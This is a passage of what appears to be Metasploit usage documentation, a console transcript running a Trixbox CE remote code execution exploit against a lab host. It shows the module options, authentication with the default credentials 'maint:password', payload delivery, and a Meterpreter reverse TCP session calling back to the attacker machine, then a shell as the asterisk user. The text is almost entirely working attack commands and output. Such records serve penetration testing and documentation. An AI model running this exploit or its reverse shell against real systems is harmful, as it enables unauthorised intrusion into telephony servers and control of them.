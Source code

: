 ```
   RPORT         80               yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT       8080             yes       The local port to listen on.
   SSL           false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (Linux Dropper)


msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > set lhost 192.168.1.10
lhost => 192.168.1.10
msf5 exploit(unix/webapp/trixbox_ce_endpoint_devicemap_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] 192.168.1.8:80 - Authenticating using "maint:password" credentials...
[+] 192.168.1.8:80 - Authenticated successfully.
[+] 192.168.1.8:80 - Trixbox CE v2.8.0.4 identified.
[*] 192.168.1.8:80 - Sending payload (150 bytes)...
[*] Sending stage (980808 bytes) to 192.168.1.8
[*] Meterpreter session 1 opened (192.168.1.10:4444 -> 192.168.1.8:38680) at 2020-05-02 03:55:24 -0400
[*] Command Stager progress - 100.00% done (799/799 bytes)

meterpreter > sysinfo
Computer     : trixbox1.localdomain
OS           : CentOS 5.5 (Linux 2.6.18-164.11.1.el5)
Architecture : i686
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > shell
Process 9259 created.
Channel 1 created.
id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
whoami
asterisk
```
